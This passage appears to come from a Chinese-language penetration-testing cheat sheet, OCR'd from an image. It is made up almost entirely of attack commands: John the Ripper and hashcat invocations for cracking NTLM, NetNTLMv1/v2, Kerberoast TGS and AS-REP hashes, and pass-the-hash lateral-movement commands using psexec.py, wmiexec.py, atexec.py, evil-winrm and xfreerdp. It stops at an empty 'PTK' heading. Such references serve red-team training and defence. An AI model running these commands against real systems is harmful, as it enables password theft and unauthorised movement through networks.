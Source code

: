 #### 2.NTLM

```
john --format=nt hash.txt

hashcat -m 1000 -a 3 hash.txt
```

#### 3.NTLMv1

```
john --format=netntlm hash.txt

hashcat -m 5500 -a 3 hash.txt
```

#### 4.NTLMv2

```
john --format=netntlmv2 hash.txt

hashcat -m 5600 -a 0 hash.txt rockyou.txt
```

#### 5.Kerberos 5 TGS

```
john spn.txt --format=krb5tgs --wordlist=rockyou.txt

hashcat -m 13100 -a 0 spn.txt rockyou.txt
```

#### 6.Kerberos ASREP

```
hashcat -m 18200 -a 0 AS-REP_roast-hashes rockyou.txt
```

# 9.横向移动

## 1.PTH

```
psexec.py -hashes ":<hash>" <user>@<ip>

wmiexec.py -hashes ":<hash>" <user>@<ip>

atexec.py -hashes ":<hash>" <user>@<ip> "command"

evil-winrm -i <ip>/<domain> -u <user> -H <hash>

xfreerdp /u:<user> /d:<domain> /pth:<hash> /v:<ip>
```

## 2.PTK
